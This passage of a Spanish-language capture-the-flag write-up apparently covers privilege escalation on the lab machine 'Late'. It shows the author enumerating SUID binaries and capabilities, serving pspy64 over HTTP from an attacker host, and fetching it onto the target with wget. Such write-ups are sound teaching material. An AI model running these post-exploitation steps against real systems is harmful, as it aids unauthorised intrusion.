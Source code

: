 No podemos aprovecharnos de ninguno de estos binarios que es **SUID**

```bash
svc_acc@late:/$ find \-perm -4000 2>/dev/null
./usr/sbin/pppd
./usr/sbin/sensible-mda
./usr/bin/chfn
./usr/bin/newuidmap
./usr/bin/passwd
./usr/bin/traceroute6.iputils
./usr/bin/newgrp
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/arping
./usr/bin/procmail
./usr/bin/newgidmap
./usr/bin/gpasswd
./usr/bin/at
./usr/lib/openssh/ssh-keysign
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./bin/fusermount
./bin/mount
./bin/su
./bin/ping
./bin/umount
svc_acc@late:/$ 
```

Ahora vamos a ver por **capabilites** pero nada

```bash
svc_acc@late:/$ getcap -r / 2>/dev/null
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
svc_acc@late:/$ 
```

Bueno ahora vamos a ver **tareas cron** con **pspy** <https://github.com/DominicBreuker/pspy/releases>

```bash
❯ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.156 - - [07/Jun/2023 18:37:05] code 404, message File not found
10.10.11.156 - - [07/Jun/2023 18:37:05] "GET /pspy HTTP/1.1" 404 -
10.10.11.156 - - [07/Jun/2023 18:37:14] "GET /pspy64 HTTP/1.1" 200 -
```

```bash
svc_acc@late:/tmp$ wget http://10.10.14.5:8080/pspy64
--2023-06-08 00:37:13--  http://10.10.14.5:8080/pspy64
Connecting to 10.10.14.5:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                          100%[=======================================================>]   2.96M  27.0KB/s    in 1m 46s  

2023-06-08 00:38:59 (28.6 KB/s) - ‘pspy64’ saved [3104768/3104768]

svc_acc@late:/tmp$ chmod +x pspy64 
svc_acc@late:/tmp$ 
```